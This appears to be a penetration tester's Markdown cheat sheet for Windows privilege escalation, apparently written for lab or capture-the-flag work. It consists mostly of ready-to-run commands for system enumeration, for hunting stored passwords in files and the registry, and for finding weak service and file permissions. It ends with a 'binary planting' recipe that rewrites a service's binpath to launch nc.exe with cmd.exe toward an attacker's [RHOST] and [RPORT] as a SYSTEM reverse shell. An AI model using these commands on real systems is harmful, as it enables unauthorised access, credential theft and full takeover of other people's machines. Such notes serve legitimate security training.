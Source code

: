 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. Check the users on the victim, `net users`


# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
4. Flags may be within network drives, try mapping with: `net use Z: \\MACHINENAME\C$`
# Default Commands 

1. [[windows-privesc-check]]
2. [[WinPeas]]
3. [[Windows Exploit Suggester - Next Generation (WES-NG)]]



# Extra Enumeration Commands

```
// What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Printer?
route print

// ARP-arific
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!


// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]
sc qc dllsvc (See [[DLL Hijacking]] )

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```